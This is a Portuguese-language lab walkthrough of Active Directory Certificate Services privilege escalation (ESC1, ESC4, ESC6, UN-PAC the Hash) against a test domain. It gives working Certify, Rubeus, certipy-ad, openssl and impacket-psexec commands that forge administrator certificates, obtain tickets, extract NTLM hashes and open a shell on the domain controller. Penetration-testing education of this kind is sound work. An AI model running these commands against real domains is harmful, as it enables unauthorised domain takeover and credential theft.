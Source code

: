 ```yaml
---
title: "Active Directory Domain Escalation"
excerpt: "Técnicas de escalonamento de privilégios em ambiente AD CS."
categories:
  - Hacking
tags:
  - Active Directory Domain Escalation
  - Domain Escalation
  - Active Directory
  - ESC1
  - ESC4
  - ESC6
  - UN-PAC the Hash
  - AD
  - AD CS
  - Certificado
  - Certify
  - Openssl
  - Rubeus

toc: true
---
```


# ESC1

A vulnerabilidade ESC1 permite que um atacante controle o campo **subjectAltName (SAN)** em um certificado gerado. Ao modificar este campo, um certificado pode ser criado para autenticar como qualquer usuário desejado (administrator, por exemplo).

## Tentando acessar o DC

![Untitled](https://github.com/user-attachments/assets/d0cee2d6-0d27-45d1-8fe0-3da80726fb65)

Como a Mônica não é Administradora de Domínio, não possui permissão para ler a pasta.

## Deixando o Modelo Vulnerável

Alterações iniciais necessárias para deixar um modelo vulnerável.

![Untitled 1](https://github.com/user-attachments/assets/f37fcd0a-558f-4e33-b064-5080aa0f2755)

Na opção de gerenciamento dos Modelos de Certificado, escolha o modelo Workstation Authentication e adicione o seguinte “Domain Users”, o seu usuário sem privilégios (no exemplo, monraybrandt) e um usuário com privilégios (no exemplo, cbricks).

## Encontrar o Template Vulnerável

```powershell
Certify.exe find /vulnerable
```

![Untitled 2](https://github.com/user-attachments/assets/309fccf5-1cdf-4c79-a310-034ffd8b3725)

![Untitled 3](https://github.com/user-attachments/assets/5ac7cb3c-3346-46cf-9e48-c8c9b3d27282)

## Gerando o Certificado

```powershell
Certify.exe request /ca:DC01.redteam.corp\redteam-DC01-CA /template:Workstation /altname:administrator
```

![Untitled 4](https://github.com/user-attachments/assets/e28df193-adba-496f-a12f-c1c139721a33)

![Untitled 5](https://github.com/user-attachments/assets/9b778584-edd9-4b65-a517-69426ae642c0)

Copie todo o código gerado (RSA PRIVATE KEY e CERTIFICATE) para um arquivo chamado “cert.pem”.

## Conversão

Utilize o openssl para converter o “cert.pem” em cert.pfx”, como diz o comando o final da imagem.

**OBS: a senha é opcional.**

```powershell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![Untitled 6](https://github.com/user-attachments/assets/aeeefaf1-8612-4f06-942b-09c5835f7656)

## Pedindo o Ticket

Com o certificado feito, pode-se especificar o nome do usuário e pedir pelo TGT (Ticket Granting Ticket) para o KDC.

```powershell
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /domain:redteam.corp /ptt
```

![Untitled 7](https://github.com/user-attachments/assets/a80266d5-07a6-40c0-b290-2660d7352442)

![Untitled 8](https://github.com/user-attachments/assets/ab8b8434-84bb-42ae-a390-ddb58ce78d33)

## Verificando o Ticket

```powershell
klist
```

![Untitled 9](https://github.com/user-attachments/assets/023baee2-862b-4ea2-874a-6314e98c12d8)

## Acessando o DC

![Untitled 10](https://github.com/user-attachments/assets/23df135e-4c86-412d-b12e-6f3132e6568f)

# ESC4

A vulnerabilidade ESC4 envolve modelos de certificados que têm permissões de controle de acesso (ACLs) mal configuradas, permitindo que usuários não privilegiados modifiquem as propriedades do próprio modelo. Um atacante com permissões de escrita pode modificar suas configurações para introduzir vulnerabilidades de ESC1, ESC2 ou ESC3, e assim escalar privilégios na rede.

## Deixando o Modelo Vulnerável

![Untitled 11](https://github.com/user-attachments/assets/f32229d9-c9c3-4cb8-8c7c-98e1ca3d96db)

## Salvar a configuração do modelo User

```powershell
certipy-ad template -username [monraybrandt@192.168.1.40](mailto:monraybrandt@192.168.1.40) -password 'M0n1c4!' -template User -save-old
```

![86fda4ac-3dc3-4dae-9755-52d7ec3c1dda](https://github.com/user-attachments/assets/fe5e1966-42b2-4a80-a07c-bf577c88d4ca)

## Alterar configuração e requisitar certificado

```powershell
certipy-ad req -username monraybrandt@DC01.redteam.corp -password 'M0n1c4!' -ca redteam-DC01-CA -target DC01.redteam.corp -template User -upn administrator@redteam.corp -debug
```

![2badef11-338b-4e1c-bb7b-5b602cf91a88](https://github.com/user-attachments/assets/b6a52cc1-a527-49f3-a5b3-f4bff6e014c4)

### Como que o certificado vai ficar

![Untitled 12](https://github.com/user-attachments/assets/fc641938-68b2-404b-8389-7015a8020415)

## Requisitar TGT

A autenticação como administrador acontece com o arquivo PFX e suas as credenciais são salvas no dispositivos (arquivo de cache).

```powershell
certipy-ad auth -pfx 'administrator.pfx' -username administrator -domain redteam.corp -dc-ip 192.168.1.40
```

![3ca9cc70-7038-45a8-b4b9-1b2e481b01c6](https://github.com/user-attachments/assets/82633053-642b-459c-9896-bbdacbb7f7ee)

## Arquivos gerados até agora

![71706e53-0785-410e-a031-58557b0e33f3](https://github.com/user-attachments/assets/e2dad95f-4dd9-478d-a223-969f25e542ad)

## Usando credenciais salvas em cache

![a184a61f-274b-42f5-8d68-7d487da77374](https://github.com/user-attachments/assets/c4b2de4f-f2ee-4366-a34b-2be9472fa54e)

## Conectar utilizando psexec

```powershell
impacket-psexec -k -no-pass -debug -dc-ip 192.168.1.40 administrator@dc01.redteam.corp
```

![Untitled 13](https://github.com/user-attachments/assets/05f0034d-97ca-49e4-8e77-a622483157e8)

## Executando comandos

![Untitled 14](https://github.com/user-attachments/assets/06842973-b353-4ac1-b4a9-a73a9dee81a0)

## Restaurar a configuração anterior

```powershell
certipy-ad template -username [monraybrandt@192.168.1.40](mailto:monraybrandt@192.168.1.40) -password 'M0n1c4!' -template User -configuration User.json
```

![Untitled 15](https://github.com/user-attachments/assets/20855977-5ea0-4907-aeca-ce938794aa14)

# ESC6

Mesma coisa que o ESC1

# UN-PAC the Hash

Ao usar o PKINIT para obter um TGT (Ticket Granting Ticket), o KDC (Key Distribution Center) inclui no bilhete um PAC_CREDENTIAL_INFO estrutura que contém as chaves NTLM (ou seja. hashes LM e NT) do usuário de autenticação. Esse recurso permite que os usuários alternem para autenticações NTLM quando os servidores remotos não suportam Kerberos, enquanto ainda dependem de um mecanismo de verificação de pré-autenticação Kerberos assimétrico (ou seja. PKINIT).

As chaves NTLM serão então recuperáveis após um TGS-REQ através de U2U, combinado com S4U2self, que é uma solicitação de Ticket de Serviço feita ao KDC onde o usuário solicita a autenticação para si mesmo.

![Untitled 17](https://github.com/user-attachments/assets/6e3e771b-306e-4937-a81d-faac96849580)

Aproveitando o “cert.pfx” gerado no ESC1.

```powershell
Rubeus.exe asktgt /getcredentials /user:administrator /domain:redteam.corp /certificate:cert.pfx /show
```

![Untitled 18](https://github.com/user-attachments/assets/999b46b4-0a2b-48b0-9af3-4f95d3912ad3)

![Untitled 19](https://github.com/user-attachments/assets/a8e05e3f-df37-4a12-bbbb-fd0a0e048c12)